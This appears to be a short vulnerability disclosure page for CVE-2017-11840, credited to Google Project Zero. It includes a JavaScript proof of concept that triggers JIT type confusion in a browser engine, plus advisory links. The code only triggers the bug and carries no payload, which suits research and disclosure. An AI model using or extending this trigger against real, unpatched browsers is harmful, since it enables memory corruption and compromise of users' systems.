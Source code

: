 # CVE-2017-11840

- Fix: Nov 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt() {
    let obj = [2.3023e-320];
    for (let i = 0; i < 1; i++) {
        obj.x = 1;  // In the first analysis, BailOnNotObject emitted
        obj = +obj;  // Change the type
        obj.x = 1;  // Type confusion
    }
}

function main() {
    for (let i = 0; i < 1000; i++) {
        opt();
    }
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11840)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1365)
